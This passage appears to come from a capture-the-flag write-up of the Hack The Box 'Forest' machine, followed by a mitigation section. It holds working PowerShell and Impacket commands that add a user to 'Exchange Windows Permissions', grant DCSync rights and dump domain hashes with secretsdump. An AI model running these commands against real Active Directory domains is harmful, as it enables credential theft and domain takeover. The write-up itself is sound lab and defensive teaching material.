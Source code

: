     ![image.png](image%2013.png)
    
    I added a new user  to `EXCHANGE WINDOWS PERMISSIONS` group so that using that user I could perform DCSync attack:
    
    ```powershell
    net user kh4n password /add /domain
    net group "Exchange Windows Permissions" kh4n /add
    ```
    
    Now let’s grant ourselves DCSync privileges over domain:
    
    ```powershell
    $SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('htb\kh4n', $SecPassword)
    Add-DomainObjectAcl -TargetIdentity 'DC=htb,DC=local' -PrincipalIdentity 'kh4n' -Rights DCSync -Verbose -Credential $Cred
    ```
    
    [DCSync AD](https://github.com/0xJs/RedTeaming_CheatSheet/blob/main/windows-ad/Domain-Privilege-Escalation.md#permissions-on-domain-object)
    
    ```powershell
    secretsdump.py -just-dc htb/kh4n@$IP
    ```
    

After Obtaining Administrator hash we can use impacket-psexec to get a shell as nt authority\system.

Alternatively we could add ourselves to `EXCHANGE WINDOWS PERMISSIONS` group and grant ourselves DCSync privileges, but after I added myself to that group I run the following and it just hangs there.

```powershell
net group "Exchange Windows Permissions" svc-alfresco /add
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members 'svc-alfresco'
Add-DomainObjectAcl -TargetIdentity htb.local -Rights DCSync
```

> When adding an *existing user* to a new privileged group (e.g., "Exchange Windows Permissions"), the current session **won’t immediately inherit** the new rights—the user must **re-login** or generate a fresh token (**`klist purge`** + **`runas`**). However, a *newly created user* added to the group **gets the rights instantly** because its initial token includes updated memberships. Always verify with **`whoami /groups`**.
{: .prompt-warning }

As you can see I am not in that group at all but I was.

![image.png](image%2014.png)

Either we should relogin or use `runas`.

## Mitigation

- **Disable Anonymous LDAP Binds**: Configure the domain controller to reject anonymous LDAP binds to prevent unauthenticated enumeration of directory objects.
- **Enforce Kerberos Pre-authentication**: Ensure all domain accounts, especially service accounts, require Kerberos pre-authentication to prevent offline brute-force attacks.
- **Restrict Account Operators Group**: Limit membership of the `Account Operators` group and regularly audit it for unauthorized access.
- **Audit Exchange Group Permissions**: Understand and restrict the implications of groups like `Exchange Windows Permissions`, which can indirectly grant DCSync rights.
- **Monitor DCSync Activity**: Enable auditing for directory replication activities using Event IDs like `4662` and tools like **Sysmon**, **Azure Sentinel**, or **ELK Stack**.
